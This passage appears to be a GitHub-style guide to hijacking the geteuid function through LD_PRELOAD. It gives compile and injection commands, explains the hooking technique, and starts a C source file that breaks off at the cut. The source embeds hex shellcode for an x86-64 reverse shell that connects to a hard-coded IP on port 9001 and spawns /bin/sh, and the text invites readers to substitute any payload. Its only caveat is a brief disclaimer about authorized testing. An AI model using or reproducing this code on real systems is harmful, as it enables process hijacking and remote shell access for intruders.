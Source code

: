 2. **Compile the Shared Library**

```sh
gcc -shared -fPIC -o hijack_geteuid.so hijack_geteuid.c -ldl
```

3. **Use `LD_PRELOAD` to Inject the Shared Library**

```sh
export LD_PRELOAD=/path/to/hijack_geteuid.so
./target_program
```

### Explanation

- **Dynamic Library Loading (`dlfcn.h`)**:
  - `dlsym(RTLD_NEXT, "geteuid")` is used to get the original `geteuid` function address. This allows the hijacked function to call the original function after executing custom logic.
  
- **Constructor Attribute**:
  - The `init` function is marked with `__attribute__((constructor))` to ensure it runs when the shared library is loaded. This initializes the original `geteuid` function pointer.
  
- **Custom Logic in Forked Process**:
  - The `fork()` system call is used to create a child process. The child process runs the custom logic defined in `run_custom_logic()`, and then exits.
  - The parent process waits for the child process to complete using `wait(NULL)` and then calls the original `geteuid` function to return its result.

### Custom Logic

In this example, the custom logic is to create a file `/tmp/hijacked_geteuid.txt`. You can replace the `run_custom_logic` function with any code or shellcode you want to execute in the child process.

This code intercepts the `geteuid` function call, allowing you to execute custom logic in a child process before returning the original function's result in the parent process. Use this code responsibly and only for educational purposes or authorized testing.

### Hijack geteuid

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <dlfcn.h>

uid_t (*original_geteuid)(void);

void run_custom_logic() {
    // Example custom logic: create a file
    system("touch /tmp/hijacked_geteuid.txt");
}

void execute_shellcode() {
    unsigned char buf[] =
        "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
        "\x48\xb9\x02\x00\x23\x29\xc0\xa8\x2d\xfa\x51\x48\x89\xe6"
        "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
        "\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
        "\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
        "\x89\xe6\x0f\x05";

    intptr_t pagesize = sysconf(_SC_PAGESIZE);
```